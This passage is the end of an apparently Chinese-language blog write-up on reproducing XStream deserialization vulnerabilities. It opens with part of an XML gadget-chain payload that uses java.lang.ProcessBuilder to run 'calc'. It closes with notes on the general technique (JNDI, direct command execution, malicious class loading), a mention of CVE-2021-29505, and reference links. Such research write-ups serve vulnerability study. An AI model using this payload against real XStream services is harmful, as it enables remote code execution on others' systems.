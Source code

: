 ```
                                    </bridge>
                                </bridge>
                                <jaxbObject class='java.lang.ProcessBuilder'>
                                    <command>
                                        <string>calc</string>
                                    </command>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

# 写在最后

XStream组件的漏洞并没有复现完，但是大多数都是这个思路，通过标签转换可以获取到相应的java对象，并且可以对其中的参数进行控制，在实现serializable接口的类，还可以调用其中的readObject方法，达到一些命令执行的效果，可以是jndi，可以是直接命令执行，可以是加载恶意类

对于其他的一些洞也没有去进行相应的复现了，例如CVE-2021-29505 XStream远程代码执行漏洞复现，貌似是通过JRMP反序列化配合CC6达到RCE的效果





参考链接

https://www.cnblogs.com/nice0e3/p/15046895.html#0x01-xstream-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E

https://xz.aliyun.com/t/8694#toc-2

https://paper.seebug.org/1543/#4-cve-2021-21350

https://www.freebuf.com/vuls/282683.html